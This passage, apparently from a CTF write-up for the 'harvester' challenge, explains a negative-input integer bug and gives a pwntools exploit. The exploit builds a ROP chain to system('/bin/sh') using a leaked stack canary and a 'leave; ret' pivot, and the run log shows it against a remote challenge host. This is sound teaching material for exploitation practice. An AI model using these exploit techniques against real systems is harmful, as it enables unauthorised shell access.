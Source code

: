 Basically, `10 - -11 = 21`, courtesy of an integer overflow (`local_18` is `int`):

```c
  int local_18;
  ...
  printstr("\nDo you want to drop some? (y/n)\n> ");
  read(0,local_13,2);
  if (local_13[0] == 'y') {
    printstr("\nHow many do you want to drop?\n> ");
    __isoc99_scanf(&%d,&local_18);
    pie = pie - local_18;
```    

Get the pies.

```python
# get 21 pies
p.sendlineafter('> ','2')
p.sendlineafter('> ','y')
p.sendlineafter('> ','-11')

# stare
p.sendlineafter('> ','3')

pop_rdi = next(libc.search(asm('pop rdi; ret')))

payload  = b''
payload += 8 * b'A'
payload += p64(pop_rdi+1)
payload += p64(pop_rdi)
payload += p64(libc.search(b"/bin/sh").__next__())
payload += p64(libc.sym.system)
payload += p64(canary)
payload += p64(target)
payload += p64(next(libc.search(asm('leave;ret;'))))

p.sendafter('> ',payload)
p.interactive()
```

At this point we select `stare` from the menu and the BOF is now unlocked (we have 22 pies).

`local_38` has 8 bytes of garbage that we need for the `leave` function to pop into RBP (see Analysis section) followed by our "classic" 32-byte ROPchain, then the canary, then the address of `local_38`, and finally a `leave; ret;` gadget.

Output:

```bash
# ./exploit.py REMOTE=1
[*] '/pwd/datajerk/cyberapocalypsectf2021/harvester/harvester_no_usleep'
    Arch:     amd64-64-little
    RELRO:    Full RELRO
    Stack:    Canary found
    NX:       NX enabled
    PIE:      PIE enabled
[+] Opening connection to 46.101.22.121 on port 31051: Done
[*] '/pwd/datajerk/cyberapocalypsectf2021/harvester/libc.so.6'
    Arch:     amd64-64-little
    RELRO:    Partial RELRO
    Stack:    Canary found
    NX:       NX enabled
    PIE:      PIE enabled
[*] canary: 0xcb8755879c893600
[*] target: 0x7ffc005391b0
[*] __libc_start_main: 0x7fb366bf2b10
[*] libc.address: 0x7fb366bd1000
[*] Switching to interactive mode
```